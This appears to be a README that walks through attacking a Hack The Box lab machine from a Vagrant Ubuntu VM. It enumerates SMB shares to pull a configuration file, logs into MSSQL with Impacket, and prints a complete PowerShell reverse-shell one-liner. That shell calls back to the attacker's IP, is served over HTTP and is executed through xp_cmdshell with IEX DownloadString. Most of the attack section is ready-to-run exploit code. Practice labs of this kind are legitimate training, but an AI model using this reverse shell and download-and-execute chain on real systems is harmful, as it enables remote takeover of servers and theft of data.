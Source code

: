 # README.md
Build an ubuntu hack the box 
  
## Prequisites
[Vagrant Setup](../README.md)

## Build the VM

### Configure Network
Avoid adding to home network to prevent bridging. 

### Data Folder
1. Create a data folder in the repo root.
1. Download the ovpn file from HTB and copy to data folder

### Connect to HTB VPN
```sh
sudo openvpn /vagrant_data/<user>.ovpn
```

### Test 
```sh
nmap -sV 10.10.10.0/24
smbclient -N -L \\\\10.10.10.27\\
smbclient -N  \\\\10.10.10.27\\backups
dir
get prod.dtsConfig
cat prod.dtsConfig
```

### Impacket
```sh
git clone https://github.com/SecureAuthCorp/impacket
pip install .
./mssqlclient.py ARCHETYPE/sql_svc@10.10.10.27 -windows-auth
```


### Reverse Shell
Find your local IP and save a script to host
```powershell
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.3",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Host the script
```sh
python3 -m http.server 80
nc -lvnp 443
```

Enable Firewall
```sh
ufw allow from 10.10.10.27 proto tcp to any port 80,443
```

Invoke it from SQL
```
xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.3/shell.ps1\");"
```